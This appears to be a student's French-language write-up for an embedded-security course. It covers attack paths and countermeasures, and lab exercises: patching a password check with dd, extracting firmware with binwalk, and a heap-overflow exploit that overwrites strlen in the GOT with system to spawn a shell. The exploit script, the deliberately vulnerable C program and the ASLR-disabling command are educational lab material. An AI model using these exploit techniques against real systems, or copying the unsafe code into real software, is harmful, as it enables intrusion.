





# INSA 2SU 2020

https://bitbucket.org/whitewand/2su_2020/src

## Questions

- Quels sont les chemins d'attaque possibles sur la signature d'un système embarqué?

Les attaquants vont pouvoir essayer de compromettre les clés de signatures (ex: Sony), ils peuvent pour cela s'attaquer au serveur de signature et au HSM (Hardware Security Module). Ils peuvent essayer d'installer un firmware non autorisé en compromettant le système de mise à jour, par exemple via la compromission de l'Open Platform qui peut permettre de changer l'autorité pour ODM (Original Designer Manufacturer) ou pour le end-user. 

- A quoi sert la chaine de confiance? Pourquoi est-elle nécessaire?

La chaine de confiance permet de verifier chaques composants (Hardware et Software) afin que seul des composants de confiance peuvent être installés. Cela est nécessaire pour garantir la légitimité et l'intégrité des composants qui dans le cas contraires pourrais être utilisé de manière malveillante.

- Décrire la méthode pour aborder la sécurité sur un produit embarqué. Pourquoi établir un modèle d'attaquant est-il important?

On doit définir la surface d'attaque du produit et ensuite définir les attaquants probables ainsi que leur motivations, ceci nous permet de définir les risques potentiels, on doit ensuite tester les produits de toutes les facons possible RE, exploit, etc...
Le modele le l'attaquant va permettre de definir les moyens à mettre en oeuvre pour se défendre (pas les mêmes entre un script kiddy et un agent de la NSA) 

- Trouver un moyen rapide de faire du debug embarqué (par exemple sur cible ARM)? Expliquer les avantages

On peut utiliser Unicorn engine (https://github.com/unicorn-engine/unicorn). Un framework qui permet d'emuler différentes architectures (ARM, AArch64, M68K, Mips, Sparc, X86), l'avantages c'est que l'on peut debuger facilement en C ou python sur sa machine sans avoir besoin d'une vrai machine qui présentes l'architecture désiré.

- Lister les catégories de bug possibles et comment les exploiter et les défendre

Binaire:
stack overflow: pour exploiter après un fuzzing on voit que l'on peut controller l'adresse de retour, on peut utiliser un shellcode (contre mesure stack no exec), on peut ensuite chainer des ROP gagdet ou faire un ret2libc basic (Contre mesure canary, DEP, ASLR), mais on peut quand même essayer de bruteforce ou de stack/heap spray. 

Heap overflow: pour exploiter on peut controller un pointeur par exemple suite à un fuzzing, et avoir une ecriture arbitraire (on peut remplacer une adresse dans la GOT par une autre par exemple strlen par system voir TD ci-dessous), comme contre mesure on pourrait activer l'ASLR, mais si on a une lecture arbitraire on pourra calculer l'offset correspondant. On peut activer la fullReloc.

Format String: On va pouvoir leaké la mémoire %x ou %s, et écrire dedans %n, contre mesure FullReloc

Use After free: On peut utiliser des structures qui ont était free (exemple vidéo de liveoverflow)

signedness error/integer overflow: on peut modifier la stack frame et la controller grace à cela, par exemple le integer overflow peut overlow partiellement la save du SP et ainsi remonter le stack frame que l'attaquant controle et ainsi avoir le controle de l'adresse de retour.


Clear Password/Credential/private keys: grâce à de la RE on peut retrouver des strings confidentiels qu'un attaquant pourrais utiliser (IDA, ghidra, etc...), contre mesure anti extraction de firmware (carte à puce ou autre), anti disassembly, anti debug, ofuscation

MITM: on peut utiliser l'ARP spoofing ou l'Evil Twin afin d'espionner le traffic d'un IoT, contre mesure SSL, on peut faire une downgrade attack dessus (sslstrip), contre mesure HSTS,on peut dans ce cas utiliser sslstrip2.

Attack wifi: get WPA2 handshake+ crack, ou attaque Krack qui permet la reinstallation de clé de force et nounce re-use, permettant de dechiffrer à la volée.

On peut modifier les circuits directement de l'IOT.

- Quelles idées pour améliorer la sécurité en embarqué? (IA, Anti-debug, Obfuscation, Crypto ...) Choisissez une idée, chercher si elle existe et développer en quelques phrases quel avantage elle apporte et ses limites


## TD
### TD1

#### Crack emily

`file Td1.original 
Td1.original: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0456a9207dea8aeec6c747f074818b7b8b231b1d, not stripped`

On lance ensuite Radare2. On peut après l'analyse afficher les strings et les symboles.


On peut voir que la fonction main vérifie l'input avec la fonction is_valid:


On peut extraire le mot de passe: **poop**. On peut voir différentes façons de patcher le binaire, en modifiant le mot de passe dans la section .data (offset: 0x984) ou en patchant le .text du programme. On peut Noped (0x90 opcode = no operation) le *je* (offset: 0x8c6) de main, le *jne* (offset: 0x861) de is valid, et change le mov 0 (offset: 0x86d) de is_valid en mov 1.

Petit script qui fait ca avec dd:

```
#!/bin/bash

echo "#Patching files";echo
cp Td1.original Td1_change_password
cp Td1.original Td1_main_nop_je
cp Td1.original Td1_is_valid_no_jne
cp Td1.original Td1_is_valid_change_mov

printf 'pwnd' | dd of=Td1_change_password bs=1 seek=2436 count=4 conv=notrunc
printf '\x90\x90' | dd of=Td1_main_nop_je bs=1 seek=2246 count=2 conv=notrunc
printf '\x90\x90' | dd of=Td1_is_valid_no_jne bs=1 seek=2145 count=2 conv=notrunc
printf '\x01' | dd of=Td1_is_valid_change_mov bs=1 seek=2157 count=1 conv=notrunc

echo "[+] testing";echo
echo "echo 'pwnd' | ./Td1_change_password"
echo 'pwnd' | ./Td1_change_password;echo
echo "echo 'random' | ./Td1_main_nop_je"
echo 'random' | ./Td1_main_nop_je;echo
echo "echo 'random' | ./Td1_is_valid_no_jne"
echo 'random' | ./Td1_is_valid_no_jne;echo
echo "echo 'random' | ./Td1_is_valid_change_mov"
echo 'random' | ./Td1_is_valid_change_mov;echo
```

résultat:

```
#Patching files

4+0 enregistrements lus
4+0 enregistrements écrits
4 bytes copied, 0,000147782 s, 27,1 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000114043 s, 17,5 kB/s
2+0 enregistrements lus
2+0 enregistrements écrits
2 bytes copied, 0,000120412 s, 16,6 kB/s
1+0 enregistrements lus
1+0 enregistrements écrits
1 byte copied, 0,000110696 s, 9,0 kB/s
[+] testing

echo 'pwnd' | ./Td1_change_password
Please input a word: That's correct!

echo 'random' | ./Td1_main_nop_je
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_no_jne
Please input a word: That's correct!

echo 'random' | ./Td1_is_valid_change_mov
Please input a word: That's correct!
```

#### Patch binaire

### TD2
#### Binwalk

Grâce à Binwalk nous allons pouvoir analyser les ressources et fichiers contenu dans un fichier.

La commande qui permet d'extraire:

`binwalk -e <Fichier>`



on peut extraire au fur et à mesure les archives contenu comme des poupées russes.
Ce qui est interessant c'est le certificat qui peut être utilisé pour vérifier une signature et le CRC32 afin de verifier l'integrit" du fichier.

finalement on arrive à une archive cpio qui contient une structure de fichier:





On peut ainsi retrouver le fichier tux.png de la démo. En analysant le script de lancement on peut voir que c'est le binaire df_andi qui charge l'image:



On peut ensuite proceder à son analyse avec Ghidra:



### TD3
#### Heap overflow

Nous allons exploiter un binaire dont voici le code source:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct user {
 char * name;
};

int main(int argc, char **argv){

  struct user *bot;
  bot = (struct user*)malloc(sizeof(struct user*));
  bot->name = malloc(sizeof(char)*20);
  strcpy(bot->name, "botname\0");

  struct user *nick;
  nick = (struct user*)malloc(sizeof(struct user*));
  nick->name = malloc(sizeof(char)*20);
  strcpy(nick->name, "nickname\0");

  char buf[256];
  int size;

  //printf("0x%08x\n", printf);

  printf("Change botname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  strcpy(bot->name, buf);

  printf("Change nickname?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  strcpy(nick->name, buf);

  printf("Your message?\n");
  memset(buf,0,256); 
  scanf("%s",buf);
  size = strlen(buf);
  free(bot);
  //free(nick);
  printf("Message sent\n");
  return 0;
}
```

On peut voir que le programme run normalement


Grâce à un heap overflow de la structure 'bot' nous allons pouvoir modifier l'adresse de la structure 'nick'. Ceci va nous donner une écriture arbitraire. Où pourrions nous écrire quelque chose d'interéssant? La Global offset table qui redirige vers les fonctions de la Glibc me parait une bonne cible. On pourrais par exemple remplacer l'adresse de 'strlen' par 'system' et executer '/bin/sh' à la place du message.

On peut calculer l'offset des fonctions


On peut voir l'adresse de strlen dans la GOT

Au premier appel on résoud l'adresse de strlen


après la résolution on voit que ca pointe bien vers strlen


exploit:

```
import sys
import struct
from pwn import *


pad = "AAAAAAAA"*4
read_addr = struct.pack("<Q", 0x555555755030) # adresse de strlen dans la GOT
s1 = pad + read_addr + "\n"

strlen = 0x7ffff7e7d710 # adresse de strlen dans la Glibc


# step 2 arbitrary writing
system = struct.pack("<Q", strlen-0x43720) # adresse de system de la Glibc par offset
s2 = system + "\n" + "/bin/sh\n"

sys.stdout.write(s1 + s2)
```

On peut compiler le programme simplement 

`gcc -o Chatbot chatbot.c`

Pour que cet exploit marche il faut désactiver l'ASLR qui va changer l'adresse de base de la Glibc à chaque execution.

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Si on avait une lecture arbitraire, on pourrait leaker une adresse de la Glibc et ainsi calculer l'offset de 'system' même avec la randomisation des adresses de la Glibc.

on obtient bien un shell:


On peut voir ce qui se passe dans la heap:

avant la copy le heap overflow on voit l'adresse de bot et de nick qui pointe vers leurs chaine de caractère respectivement.


ensuite après le heap overflow, on voit que l'adresse de nick pointe vers strlen@got:


Si on regarde dans strlen@plt, on voit que ca pointe désormais vers system


